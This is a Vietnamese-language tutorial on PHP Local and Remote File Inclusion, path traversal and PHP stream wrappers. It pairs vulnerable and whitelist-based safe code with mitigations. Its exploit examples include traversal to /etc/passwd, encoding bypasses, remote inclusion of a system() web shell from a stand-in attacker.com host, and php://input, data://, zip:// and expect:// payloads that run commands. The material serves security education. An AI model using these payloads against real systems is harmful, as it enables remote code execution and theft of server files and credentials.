

# LFI và RFI và PHP Stream Wrapper

## Tài liệu tham khảo

[www.indusface.com/learning/file-inclusion-attacks-lfi-rfi](https://www.indusface.com/learning/file-inclusion-attacks-lfi-rfi/)

[viettelidc.com.vn/tin-tuc/tim-hieu-ve-tan-cong-khai-thac-lo-hong-file-inclusion](https://viettelidc.com.vn/tin-tuc/tim-hieu-ve-tan-cong-khai-thac-lo-hong-file-inclusion)

[www.geeksforgeeks.org/computer-networks/difference-between-rfi-and-lfi](https://www.geeksforgeeks.org/computer-networks/difference-between-rfi-and-lfi/)

[owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)

## Bố cục nội dung

```
LFI, RFI & PHP Stream Wrapper
│
├── Ôn tập kiến thức nền
│   ├── Path Traversal (Directory Traversal)
│   │   ├── Bản chất của Path Traversal
│   │   ├── So sánh giữa đường dẫn tương đối và đường dẫn tuyệt đối
│   │   ├── Quá trình chuẩn hóa đường dẫn
│   │   └── Phản chứng với hàm readfile()
│   │
│   ├── PHP File Inclusion
│   │
│   ├── Nguồn dữ liệu và Điểm tiếp nhận
│   │
│   └── Ranh giới tin cậy
│
├── Local File Inclusion (LFI)
│   ├── Khái niệm
│   ├── Nguyên nhân gốc rễ
│   ├── Điều kiện khai thác
│   ├── Sơ đồ luồng dữ liệu của LFI
│   ├── Kỹ thuật vượt qua cơ chế lọc đường dẫn (Bypass Techniques)
│   ├── Ví dụ mã nguồn có lỗi
│   ├── Ví dụ mã nguồn an toàn
│   ├── Các tệp tin nhạy cảm thường dùng để kiểm tra lỗi
│   ├── Tác động bảo mật
│   ├── Biện pháp khắc phục
│   └── Case Study về LFI: Chức năng thay đổi ngôn ngữ giao diện
│
├── Remote File Inclusion (RFI)
│   ├── Khái niệm
│   ├── So sánh LFI và RFI
│   ├── Cấu hình quyết định khả năng khai thác RFI
│   ├── Phản chứng
│   ├── Ví dụ khai thác
│   ├── Biện pháp khắc phục
│   └── Case Study về RFI: Chức năng tích hợp tiện ích động (Dynamic Widget)
│
├── PHP Stream Wrapper
│   ├── Khái niệm Stream Wrapper
│   ├── Cách hoạt động
│   ├── Các hàm hệ thống sử dụng cơ chế luồng
│   └── Các bộ quản lý luồng quan trọng
│
└── Các bộ quản lý luồng PHP phổ biến trong kiểm thử
    ├── Luồng php://filter
    ├── Luồng php://input
    ├── Luồng data://
    ├── Luồng zip:// và phar://
    └── Luồng expect://
```

<div style="page-break-after: always;"></div>

## Ôn tập kiến thức nền

### Path Traversal (Directory Traversal)

#### Bản chất của Path Traversal

Bản chất của Path Traversal là hành vi điều khiển đường dẫn (path manipulation). Kết quả cuối cùng dẫn đến việc Đọc tệp tin (Read), Ghi tệp tin (Write) hoặc Thực thi tệp tin (Execute) hoàn toàn phụ thuộc vào điểm tiếp nhận (sink) xử lý đường dẫn đó.

Tư duy phân tích lỗi tuân theo luồng: `Source ─► Path Traversal ─► Sink ─► Vulnerability`

Sơ đồ tổng quan về mối quan hệ giữa dữ liệu đầu vào, kỹ thuật điều khiển đường dẫn, điểm tiếp nhận và lỗ hổng phát sinh:

```
Dữ liệu đầu vào (User Input)
      │
      ▼
Đường dẫn điều khiển (ví dụ: ../../etc/passwd)
      │
      ▼
Điểm tiếp nhận hệ thống tệp tin (Filesystem Sink)
      │
      ├── include() / require() ────────────────────────► Lỗ hổng thực thi tệp tin cục bộ (LFI)
      │         │
      │         ▼
      │   Hỗ trợ bởi Stream Wrappers:
      │   - php://filter (Đọc mã nguồn)
      │   - php://input (Nhập dữ liệu thô)
      │   - data:// (Truyền dữ liệu trực tiếp)
      │   - zip:// / phar:// (Trích xuất gói nén)
      │         │
      │         ▼
      │   Liên kết chuỗi khai thác (Exploit Chains) ─────► Thực thi mã độc từ xa (RCE)
      │
      ├── file_get_contents() / readfile() ─────────────► Lỗ hổng đọc tệp tin tùy ý (Arbitrary File Read)
      │
      ├── unlink() ─────────────────────────────────────► Lỗ hổng xóa tệp tin tùy ý (Arbitrary File Delete)
      │
      ├── rename() / move_uploaded_file() ──────────────► Lỗ hổng di chuyển tệp tin tùy ý (Arbitrary File Move)
      │
      └── file_put_contents() ──────────────────────────► Lỗ hổng ghi tệp tin tùy ý (Arbitrary File Write)
```

Kiến thức về Path Traversal là độc lập với ngôn ngữ lập trình. Khi chuyển sang các môi trường phát triển khác, người kiểm thử chỉ cần xác định điểm tiếp nhận tương ứng của ngôn ngữ đó để áp dụng kỹ thuật điều khiển đường dẫn:

* Ngôn ngữ Java: `Files.readAllBytes()`, `new File()`, `Paths.get()`
* Môi trường Node.js: `fs.readFile()`, `fs.writeFile()`
* Ngôn ngữ Python: `open()`, `os.remove()`

#### So sánh giữa đường dẫn tương đối và đường dẫn tuyệt đối

Đường dẫn tương đối xác định vị trí của một tệp tin dựa trên thư mục làm việc hiện tại của ứng dụng. Ký tự `../` được sử dụng để di chuyển ngược lại một cấp thư mục cha.

* Ví dụ đường dẫn tương đối: Nếu thư mục hiện tại là `/var/www/html/uploads/` và cần truy cập tệp tin cấu hình nằm ở thư mục cha, đường dẫn sẽ là `../config.php`.

Đường dẫn tuyệt đối xác định vị trí chính xác của một tệp tin bắt đầu từ thư mục gốc của hệ thống tệp tin trên hệ điều hành.

* Ví dụ đường dẫn tuyệt đối trên hệ điều hành Linux: `/var/www/html/config.php`
* Ví dụ đường dẫn tuyệt đối trên hệ điều hành Windows: `C:\xampp\htdocs\config.php`

#### Quá trình chuẩn hóa đường dẫn

Chuẩn hóa đường dẫn là quá trình hệ điều hành hoặc máy chủ web xử lý và chuyển đổi các chuỗi ký tự điều hướng như `../` hoặc `./` thành một đường dẫn thực tế duy nhất.

* Ví dụ: Đường dẫn chưa chuẩn hóa `/var/www/html/uploads/../../etc/passwd` sau khi đi qua quá trình chuẩn hóa sẽ trở thành `/etc/passwd`.

#### Phản chứng với hàm readfile()

Thực chất, bộ dịch PHP (PHP parser) chỉ thực hiện biên dịch và chạy các mã lệnh PHP khi tệp tin được xử lý qua các hàm nhúng tệp tin chuyên biệt như `include()` hoặc `require()`.
Hành vi của hàm `readfile()` chỉ là đọc dữ liệu dạng bytes từ tệp tin và đẩy trực tiếp ra bộ đệm đầu ra (echo bytes) để gửi về trình duyệt, hoàn toàn không chuyển nội dung tệp tin đó qua bộ dịch PHP lần thứ hai.

* Do đó, khi gọi `readfile('test.php')`, trình duyệt sẽ nhận lại toàn bộ mã nguồn thô chứa các thẻ PHP của tệp tin `test.php` chứ không thực thi các mã lệnh bên trong.

### PHP File Inclusion

PHP cung cấp bốn hàm chính để thực hiện việc nhúng tệp tin:

* Hàm `include()` thực hiện nhúng và thực thi tệp tin được chỉ định. Nếu xảy ra lỗi do tệp tin không tồn tại, máy chủ chỉ đưa ra cảnh báo và tiếp tục thực thi các đoạn mã phía sau.
* Hàm `require()` thực hiện nhúng và thực thi tệp tin. Nếu xảy ra lỗi do tệp tin không tồn tại, máy chủ sẽ dừng chương trình ngay lập tức và đưa ra thông báo lỗi nghiêm trọng.
* Hàm `include_once()` có hành vi tương tự hàm `include()` nhưng máy chủ sẽ kiểm tra xem tệp tin đã được nhúng trước đó trong cùng yêu cầu chưa. Nếu đã nhúng, máy chủ sẽ bỏ qua để tránh lỗi định nghĩa lại hàm hoặc lớp.
* Hàm `require_once()` có hành vi tương tự hàm `require()` nhưng cũng chỉ cho phép nhúng tệp tin một lần duy nhất.

### Nguồn dữ liệu và Điểm tiếp nhận

* Nguồn dữ liệu (Source): Nơi tiếp nhận các dữ liệu đầu vào do người dùng kiểm soát. Trong PHP, nguồn dữ liệu thường là các tham số từ các mảng siêu toàn cục như `$_GET`, `$_POST`, `$_COOKIE`, hoặc `$_REQUEST`.
* Điểm tiếp nhận hệ thống tệp tin (Filesystem Sink): Nơi dữ liệu đầu vào tương tác với hệ thống tệp tin của máy chủ. Danh sách các điểm tiếp nhận phổ biến bao gồm:
  * `include`
  * `require`
  * `include_once`
  * `require_once`
  * `file_get_contents`
  * `readfile`
  * `fopen`
  * `rename`
  * `unlink`
  * `move_uploaded_file`
  * `copy`
  * `file_put_contents`

Không phải tất cả các điểm tiếp nhận trên đều gây ra lỗ hổng Local File Inclusion (LFI). Tuy nhiên, chúng đều là các điểm tiếp nhận liên quan đến hệ thống tệp tin (Filesystem Sinks) và có thể dẫn đến các hậu quả khác nhau như Đọc tệp tin tùy ý, Ghi tệp tin tùy ý hoặc Xóa tệp tin tùy ý nếu không được kiểm soát an toàn.

### Ranh giới tin cậy

Ranh giới tin cậy phân chia khu vực dữ liệu chưa được kiểm chứng bên ngoài ứng dụng và dữ liệu an sau khi đi qua các cơ chế xác thực bên trong hệ thống.

* Ranh giới giữa trình duyệt và máy chủ PHP: Mọi thông tin gửi lên từ trình duyệt đều nằm ngoài ranh giới tin cậy và phải được coi là có nguy cơ độc hại.
* Ranh giới giữa máy chủ PHP và hệ thống tệp tin: Mã nguồn PHP cần xác thực dữ liệu trước khi cho phép dữ liệu đó tương tác với hệ thống tệp tin. Khi ứng dụng truyền trực tiếp tham số từ trình duyệt vào hàm nhúng tệp tin, ranh giới tin cậy này đã bị phá vỡ.

## Local File Inclusion (LFI)

### Khái niệm

LFI là khả năng khiến ứng dụng include một file cục bộ ngoài ý muốn. Nếu file chứa mã PHP thì PHP sẽ thực thi; nếu không thì nội dung sẽ được xuất ra như văn bản.

### Nguyên nhân gốc rễ

Lập trình viên sử dụng trực tiếp dữ liệu do người dùng nhập vào để tạo đường dẫn đến tệp tin cần nhúng mà không thực hiện kiểm tra danh sách cho phép hoặc lọc bỏ các ký tự điều hướng thư mục.

### Điều kiện khai thác

* Ứng dụng sử dụng một trong các hàm nhúng tệp tin của PHP để gọi tệp tin động.
* Người kiểm thử có khả năng kiểm soát giá trị của tham số đường dẫn truyền vào hàm đó.

### Sơ đồ luồng dữ liệu của LFI



### Kỹ thuật vượt qua cơ chế lọc đường dẫn (Bypass Techniques)

#### Các kỹ thuật lỗi thời (Legacy Bypass)

Các kỹ thuật này chỉ hoạt động trên các phiên bản hệ thống hoặc ngôn ngữ cũ, hầu như đã bị loại bỏ trên các hệ thống hiện đại và các bài thi thực tế mới:

* Ký tự Null Byte `%00` (Legacy - Chỉ hoạt động trên PHP phiên bản cũ dưới 5.3.4): Khi lập trình viên cố định phần mở rộng của tệp tin (ví dụ: `include($page . '.php');`), ký tự Null Byte sẽ làm bộ biên dịch PHP coi chuỗi đường dẫn kết thúc tại vị trí đó và bỏ qua phần mở rộng phía sau. Ví dụ: tham số `page=../../etc/passwd%00` sẽ giúp nhúng trực tiếp tệp tin `/etc/passwd`.
* Mã hóa Overlong UTF 8 (Legacy - Đã bị loại bỏ trong Apache và Nginx hiện đại): Sử dụng các ký tự đại diện cho dấu chấm hoặc dấu gạch chéo trong bảng mã UTF 8 để bypass các bộ lọc chuỗi thông thường. Ví dụ: ký tự `.` có thể được biểu diễn thành `%c0%ae` hoặc ký tự `/` được biểu diễn thành `%c0%af`.
* Cắt ngắn đường dẫn Dot Truncation / Path Length (Legacy): Khi độ dài của đường dẫn vượt quá giới hạn của hệ thống tệp tin (thường là 4096 bytes trên Linux và 256 bytes trên Windows), hệ thống sẽ tự động cắt bỏ phần đuôi vượt quá giới hạn. Ví dụ: gửi chuỗi đường dẫn chứa nhiều ký tự chấm và gạch chéo liên tiếp như `../../etc/passwd/././././` kéo dài cho đến khi vượt quá 4096 bytes để cắt bỏ phần mở rộng `.php` bị tự động thêm vào phía sau.

#### Các kỹ thuật còn hoạt động (Active Bypass)

Các kỹ thuật này vẫn thường gặp trong các hệ thống hiện nay:

* Mã hóa URL kép (Double URL Encode): Khi ứng dụng lọc các ký tự điều hướng nhưng bộ lọc chỉ thực hiện giải mã một lần, việc gửi mã hóa URL hai lần sẽ giúp vượt qua bộ lọc. Ví dụ: ký tự `../` được mã hóa một lần thành `%2e%2e%2f` và mã hóa lần hai thành `%252e%252e%252f`.
* Đường dẫn tuyệt đối (Absolute Path): Trong trường hợp bộ lọc chỉ kiểm tra hoặc loại bỏ chuỗi `../`, người kiểm thử có thể sử dụng trực tiếp đường dẫn tuyệt đối để truy cập tệp tin mà không cần dùng ký tự điều hướng. Ví dụ: `page=/etc/passwd`.
* Ký tự phân tách hỗn hợp (Mixed Separator): Hệ điều hành Windows hỗ trợ cả ký tự gạch chéo xuôi `/` và gạch chéo ngược `\` làm ký tự phân tách thư mục. Ví dụ: `page=..\\..\\windows\\win.ini` hoặc sử dụng xen kẽ `..\/..\/` để làm rối loạn bộ lọc tìm kiếm chuỗi `../`.
* Cấu hình open_basedir: Đây là cấu hình trong `php.ini` nhằm giới hạn các thư mục mà PHP được phép truy cập. Nếu tệp tin cần truy cập nằm ngoài các thư mục được cấu hình trong `open_basedir`, hệ thống sẽ chặn hành vi truy cập kể cả khi đường dẫn hoàn toàn chính xác.

### Ví dụ mã nguồn có lỗi

```php
<?php
$page = $_GET['page'];
include($page);
?>
```

### Ví dụ mã nguồn an toàn

Sử dụng phương pháp ánh xạ danh sách cho phép để ngăn chặn người dùng nhập đường dẫn tự do:

```php
<?php
$page = $_GET['page'];
$allowed = array(
    'trangchu' => 'home.php',
    'gioithieu' => 'about.php',
    'lienhe' => 'contact.php'
);
if (array_key_exists($page, $allowed)) {
    include($allowed[$page]);
} else {
    include('home.php');
}
?>
```

### Các tệp tin nhạy cảm thường dùng để kiểm tra lỗi

* Trên hệ điều hành Linux: `/etc/passwd` (Chứa danh sách người dùng hệ thống)
* Trên hệ điều hành Windows: `C:\Windows\win.ini` (Tệp tin cấu hình mặc định của hệ thống)

### Tác động bảo mật

Bản thân lỗ hổng Local File Inclusion (LFI) chỉ cho phép nhúng và thực thi các tệp tin cục bộ. LFI không trực tiếp chuyển đổi thành Thực thi mã nguồn từ xa (RCE).
Để đạt được RCE, người kiểm thử phải kết hợp LFI với các kỹ thuật hoặc lỗ hổng khác tạo thành một chuỗi khai thác (Exploit Chain):

* LFI + Upload tệp tin độc hại = RCE
* LFI + Kỹ thuật đầu độc tệp tin nhật ký (Log Poisoning) = RCE
* LFI + Kỹ thuật đầu độc phiên làm việc (Session Poisoning) = RCE
* LFI + Gói lưu trữ PHAR = RCE

Trong một số điều kiện đặc biệt, LFI mới có thể được chain thành RCE để kiểm soát hoàn toàn hệ thống.

### Biện pháp khắc phục

* Sử dụng danh sách cho phép cố định để kiểm tra tham số đầu vào.
* Không cho phép người dùng thay đổi trực tiếp đường dẫn hoặc tên tệp tin nhúng.
* Cấu hình phân quyền hệ thống tệp tin để ứng dụng web chỉ có quyền truy cập tối thiểu vào các thư mục cần thiết.

### Case Study về LFI: Chức năng thay đổi ngôn ngữ giao diện

Một trang tin tức trực tuyến sử dụng tham số `lang` để người dùng có thể tự chuyển đổi ngôn ngữ của trang web. Mã nguồn xử lý của ứng dụng được thiết lập như sau:

```php
<?php
$language = $_GET['lang'];
include('languages/' . $language . '.php');
?>
```

* Phân tích luồng hoạt động:
  * Khi người dùng truy cập `index.php?lang=vietnamese`, ứng dụng sẽ thực hiện nhúng tệp tin `languages/vietnamese.php`.
  * Do không có bộ lọc kiểm tra dữ liệu đầu vào, người kiểm thử có thể thực hiện kỹ thuật điều hướng đường dẫn để truy cập các tệp tin bên ngoài thư mục `languages/`.
* Tình huống khai thác thực tế:
  * Người kiểm thử gửi yêu cầu truy cập: `index.php?lang=../config`
  * Ứng dụng xử lý chuỗi và truyền đường dẫn tương đối vào điểm tiếp nhận: `languages/../config.php`.
  * Sau khi hệ thống tệp tin chuẩn hóa đường dẫn, tệp tin được gọi thực tế sẽ là `config.php` nằm ngoài thư mục ngôn ngữ.
  * Bộ dịch PHP biên dịch tệp tin này và thực thi các mã lệnh cấu hình cơ sở dữ liệu. Nếu tệp tin `config.php` có chức năng in hoặc lưu thông tin kết nối, người kiểm thử sẽ thu thập được mật khẩu quản trị cơ sở dữ liệu.
* Biện pháp khắc phục trong case study này: Lập trình viên cần áp dụng cơ chế danh sách cho phép (whitelist) chỉ chấp nhận các từ khóa như `vietnamese` hoặc `english` để ánh xạ đến các tệp tin tĩnh cố định, tuyệt đối không nối chuỗi trực tiếp từ tham số người dùng.

## Remote File Inclusion (RFI)

### Khái niệm

Remote File Inclusion là lỗ hổng bảo mật cho phép ứng dụng web tải và thực thi một tệp tin nằm trên một máy chủ từ xa thông qua các giao thức mạng.

### So sánh LFI và RFI

* Local File Inclusion chỉ có thể nhúng các tệp tin đã tồn tại sẵn trên hệ thống lưu trữ cục bộ của máy chủ web.
* Remote File Inclusion cho phép nhúng một tệp tin từ một máy chủ bất kỳ trên mạng Internet do người kiểm thử kiểm soát.
* LFI luôn có thể khai thác được bất kể cấu hình PHP nếu mã nguồn có lỗi. RFI chỉ có thể khai thác thành công khi cấu hình hệ thống PHP cho phép nhúng các đường dẫn liên kết từ xa.

### Cấu hình quyết định khả năng khai thác RFI

Hai cấu hình chính trong tệp tin `php.ini` kiểm soát lỗ hổng này:

* Cấu hình `allow_url_fopen` cho phép các hàm tệp tin của PHP truy cập các địa chỉ URL từ xa qua mạng.
* Cấu hình `allow_url_include` cho phép các hàm nhúng tệp tin như `include()` hoặc `require()` nhúng trực tiếp các địa chỉ URL từ xa. Lỗ hổng RFI chỉ có thể xảy ra khi cả hai cấu hình này đều được bật.

Lưu ý quan trọng về cấu hình `allow_url_include`:

* Cấu hình này đã bị đánh dấu là không khuyến khích sử dụng (deprecated) kể từ phiên bản PHP 7.4.
* Cấu hình này đã bị loại bỏ hoàn toàn (removed) kể từ phiên bản PHP 8.0.
* Do đó, lỗ hổng RFI hiện nay cực kỳ hiếm gặp trong thực tế. Người học không nên dành nhiều thời gian tập trung vào kỹ thuật này khi tiếp cận các hệ thống hiện đại.

### Phản chứng

Giả sử mã nguồn ứng dụng có lỗi nhúng tệp tin và cấu hình `allow_url_fopen` đang ở trạng thái bật, nhưng cấu hình `allow_url_include` đang ở trạng thái tắt. Khi gửi yêu cầu nhúng một tệp tin từ máy chủ ngoài qua địa chỉ `http://attacker.com/shell.txt`, máy chủ PHP sẽ từ chối xử lý và hiển thị thông báo lỗi bảo mật. Việc chặn nhúng URL từ xa này ngăn ngừa hoàn toàn khả năng xảy ra lỗ hổng RFI.

### Ví dụ khai thác

* Kẻ tấn công tạo một tệp tin văn bản tại địa chỉ `http://attacker.com/shell.txt` chứa mã độc PHP:
  ```php
  <?php
  system($_GET['cmd']);
  ?>
  ```
* Kẻ tấn công gửi yêu cầu đến ứng dụng web có lỗi: `http://target.com/index.php?page=http://attacker.com/shell.txt&cmd=whoami`
* Máy chủ mục tiêu tải nội dung của tệp tin `shell.txt` về bộ nhớ và thực thi lệnh hệ thống `whoami` thông qua hàm `system()`.

### Biện pháp khắc phục

* Thiết lập cấu hình `allow_url_include = Off` trong tệp tin cấu hình `php.ini`.

### Case Study về RFI: Chức năng tích hợp tiện ích động (Dynamic Widget)

Một cổng thông tin nội bộ của doanh nghiệp cho phép người dùng tùy biến giao diện bằng cách nhúng các Widget tiện ích khác nhau thông qua tham số `widget`. Mã nguồn xử lý như sau:

```php
<?php
$widget = $_GET['widget'];
include($widget);
?>
```

* Phân tích luồng hoạt động:
  * Khi ứng dụng hoạt động bình thường, quản trị viên gọi các tiện ích cục bộ như `widgets/weather.php` bằng cách truy cập `index.php?widget=widgets/weather.php`.
  * Do máy chủ cấu hình bật đồng thời cả hai tùy chọn `allow_url_fopen` và `allow_url_include` trong cấu hình `php.ini`, điểm tiếp nhận `include()` sẽ chấp nhận các đường dẫn dạng liên kết URL từ xa.
* Tình huống khai thác thực tế:
  * Người kiểm thử chuẩn bị một tệp tin văn bản có chứa mã độc PHP tại máy chủ độc lập của mình với địa chỉ `http://attacker.com/evil.txt` chứa nội dung:
    ```php
    <?php system($_GET['cmd']); ?>
    ```
  * Người kiểm thử thực hiện gửi yêu cầu truy cập đến cổng thông tin: `index.php?widget=http://attacker.com/evil.txt&cmd=whoami`
  * Ứng dụng web tải tệp tin `evil.txt` từ máy chủ từ xa về bộ nhớ tạm thời của PHP parser và biên dịch mã lệnh.
  * Lệnh hệ thống `whoami` được thực thi và in kết quả tên tài khoản chạy tiến trình web lên trình duyệt của người kiểm thử.
* Biện pháp khắc phục trong case study này:
  * Thiết lập cấu hình hệ thống máy chủ `allow_url_include = Off`.
  * Thay đổi cơ chế nhúng động bằng cách sử dụng các tệp tin cục bộ cố định thông qua cấu trúc điều hướng danh sách cho phép.

## PHP Stream Wrapper

### Khái niệm Stream Wrapper

Bộ quản lý luồng dữ liệu là một cơ chế tích hợp trong PHP giúp các hàm xử lý tệp tin tiêu chuẩn có thể tương tác với nhiều loại giao thức mạng hoặc luồng dữ liệu nội bộ bằng cùng một cách thức lập trình.

Lưu ý quan trọng: Bộ quản lý luồng không phải là lỗ hổng bảo mật (Wrapper không bằng Vulnerability). Bộ quản lý luồng chỉ đóng vai trò là một lớp vận chuyển dữ liệu (Transport Layer) tương tự như một giao thức (Protocol) hỗ trợ xử lý dữ liệu. Lỗ hổng bảo mật thực sự nằm ở việc ứng dụng lập trình không an toàn (ví dụ như cho phép dữ liệu từ người dùng đi thẳng vào điểm tiếp nhận nhúng tệp tin `include($user_input)`). Bộ quản lý luồng chỉ là công cụ hỗ trợ người kiểm thử tương tác với lỗ hổng đó.

### Cách hoạt động

Khi đường dẫn truyền vào hàm có chứa một tiền tố giao thức (ví dụ `php://` hoặc `data://`), PHP sẽ chuyển quyền xử lý cho bộ quản lý luồng tương ứng để xử lý dữ liệu thay vì truy cập hệ thống tệp tin vật lý thông thường.

### Các hàm hệ thống sử dụng cơ chế luồng

Cơ chế này áp dụng cho các hàm xử lý tệp tin tiêu chuẩn của PHP bao gồm `include()`, `require()`, `fopen()`, `file_get_contents()`, và `readfile()`.

### Các bộ quản lý luồng quan trọng

* Luồng `file://` dùng để truy cập hệ thống tệp tin cục bộ và là luồng mặc định khi không khai báo tiền tố giao thức.
* Luồng `php://` cung cấp quyền truy cập vào các luồng thông tin đầu vào và đầu ra của máy chủ.
* Luồng `data://` cho phép truyền trực tiếp dữ liệu thô dạng văn bản hoặc dạng mã hóa Base64 vào luồng xử lý.
* Luồng `zip://` hỗ trợ mở và đọc các tệp tin cụ thể nằm bên trong một tệp tin nén zip.
* Luồng `phar://` hỗ trợ truy cập và xử lý các gói lưu trữ ứng dụng PHP.
* Luồng `expect://` cho phép chạy trực tiếp các câu lệnh trên hệ điều hành (yêu cầu cài đặt thư viện mở rộng).
* Luồng `http://` và `https://` dùng để kết nối và truy cập các tài nguyên qua giao thức mạng HTTP hoặc HTTPS.

## Các bộ quản lý luồng PHP phổ biến trong kiểm thử

### Luồng php://filter

#### Cơ chế hoạt động

Luồng này cho phép áp dụng các bộ lọc xử lý chuỗi (như mã hóa, giải mã hoặc chuyển đổi ký tự) lên luồng dữ liệu trước khi dữ liệu được đọc ra hoặc ghi vào hệ thống.

#### Bộ lọc mã hóa convert.base64-encode

Bộ lọc này thực hiện chuyển đổi toàn bộ nội dung của tệp tin đích thành chuỗi ký tự mã hóa Base64.

#### Ứng dụng đọc mã nguồn (Source Disclosure)

Khi thực hiện nhúng trực tiếp một tệp tin PHP (ví dụ `config.php`) qua lỗ hổng LFI, máy chủ sẽ thực thi mã nguồn bên trong tệp tin đó và chỉ hiển thị kết quả xử lý ra màn hình, không hiển thị mã nguồn gốc.

Để đọc được mã nguồn thô của tệp tin cấu hình, người kiểm thử sử dụng bộ lọc mã hóa Base64 để chuyển đổi nội dung tệp tin trước khi truyền vào hàm nhúng.

Máy chủ nhận được chuỗi ký tự Base64 không chứa thẻ mở PHP nên sẽ hiển thị chuỗi ký tự này trực tiếp lên màn hình. Người kiểm thử chỉ cần sao chép chuỗi Base64 này và giải mã để có được mã nguồn gốc.

Luồng hoạt động của quá trình đọc mã nguồn:

```
Tệp tin config.php
      │
      ▼
Truy cập qua luồng php://filter
      │
      ▼
Áp dụng bộ lọc convert.base64-encode
      │
      ▼
Bộ dịch PHP không thực hiện parse mã nguồn
      │
      ▼
Máy chủ hiển thị chuỗi Base64 ra màn hình (echo)
      │
      ▼
Người kiểm thử nhận kết quả trên Trình duyệt
      │
      ▼
Giải mã chuỗi Base64 để thu về mã nguồn thô
```

#### Ví dụ khai thác

* Đường dẫn yêu cầu: `index.php?page=php://filter/read=convert.base64-encode/resource=config.php`
* Chuỗi ký tự nhận về trên trình duyệt: `PD9waHAgJGRidXNlciA9ICdyb290JzsgPz4=`
* Kết quả sau khi giải mã Base64: `<?php $dbuser = 'root'; ?>`

### Luồng php://input

#### Cơ chế hoạt động

Luồng này cho phép đọc dữ liệu thô từ phần thân của yêu cầu HTTP (Raw HTTP Body). Luồng này có thể đọc được dữ liệu gửi qua các phương thức HTTP bao gồm POST, PUT, hoặc PATCH.

#### Khai thác thực thi mã độc (RCE)

Khi ứng dụng nhúng dữ liệu từ luồng `php://input` qua hàm `include()`, máy chủ sẽ đọc trực tiếp nội dung gửi kèm trong phần thân của yêu cầu HTTP và biên dịch nó như mã nguồn PHP.

#### Điều kiện khai thác

* Cấu hình `allow_url_include` của máy chủ phải ở trạng thái bật.

#### Ví dụ yêu cầu HTTP

```http
POST /index.php?page=php://input HTTP/1.1
Host: target.com
Content-Length: 29

<?php system('id'); ?>
```

### Luồng data://

#### Cơ chế hoạt động

Cho phép người kiểm thử truyền trực tiếp nội dung mã độc PHP vào ứng dụng thông qua tham số đường dẫn dưới dạng văn bản thô hoặc chuỗi mã hóa Base64.

#### Điều kiện khai thác

* Cấu hình `allow_url_include` bắt buộc phải ở trạng thái bật.

#### Ví dụ payload

* Truyền trực tiếp: `data://text/plain,<?php system('id');?>`
* Truyền dạng mã hóa Base64: `data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8+`

### Luồng zip:// và phar://

#### Cơ chế hoạt động

Cho phép truy cập trực tiếp vào một tệp tin cụ thể nằm bên trong một gói nén hoặc gói lưu trữ cục bộ.

Luồng hoạt động của zip://:

```
Truy cập qua luồng zip://
      │
      ▼
Bộ quản lý luồng mở tệp tin nén (Archive)
      │
      ▼
Đọc tệp tin mã độc bên trong tệp nén
      │
      ▼
Hàm include() thực thi mã độc
```

Tác động của luồng `zip://` phụ thuộc hoàn toàn vào điểm tiếp nhận (sink) xử lý nó:

* `include('zip://avatar.zip#shell.php')` ─► Kích hoạt mã độc thực thi (RCE).
* `file_get_contents('zip://avatar.zip#data.txt')` ─► Đọc nội dung tệp tin thô.

Công thức tổng quát: Wrapper + Sink = Behavior (Hành vi xử lý).

#### So sánh điều kiện cấu hình

Khác biệt quan trọng của luồng `zip://` và `phar://` so với luồng `data://` hoặc `php://input` là hai luồng này không yêu cầu bật cấu hình `allow_url_include`. Do đó, đây là kỹ thuật hiệu quả để vượt qua các máy chủ tắt tính năng nhúng liên kết từ xa.

#### Ví dụ khai thác zip://

* Bước 1: Người kiểm thử nén tệp tin mã độc `shell.php` vào một tệp tin nén zip, sau đó đổi tên tệp tin nén thành `avatar.jpg` để vượt qua bộ lọc tải lên của ứng dụng.
* Bước 2: Tải tệp tin `avatar.jpg` lên máy chủ.
* Bước 3: Sử dụng luồng `zip://` để giải nén và nhúng tệp tin `shell.php` bên trong:
  `index.php?page=zip://uploads/avatar.jpg%23shell.php`
  Ký tự `%23` là định dạng mã hóa URL của dấu thăng, dùng để phân tách giữa đường dẫn của tệp tin nén và tên tệp tin đích cần trích xuất bên trong.

#### Lưu ý quan trọng về phar://

Hiện nay trong các kịch bản kiểm thử thực tế và các bài thi chứng chỉ bảo mật nâng cao (như OSWE), luồng `phar://` chủ yếu được sử dụng để kích hoạt các lỗ hổng liên quan đến giải tuần tự hóa dữ liệu (Deserialization) thông qua các chuỗi liên kết đối tượng (Gadget Chains) khi hệ thống thực hiện các thao tác tệp tin trên tệp phar độc hại, chứ không chỉ đơn giản là đọc hoặc nhúng tệp tin thông thường.

### Luồng expect://

Luồng này cho phép chạy các câu lệnh hệ thống trực tiếp thông qua luồng xử lý dữ liệu.

* Yêu cầu: Đòi hỏi máy chủ phải cài đặt thêm thư viện mở rộng PECL Expect. Luồng này cực kỳ hiếm gặp trong thực tế và hầu như không xuất hiện trong các bài thi chứng chỉ như OSCP do yêu cầu thư viện bên ngoài không mặc định.
* Ví dụ payload: `index.php?page=expect://whoami`
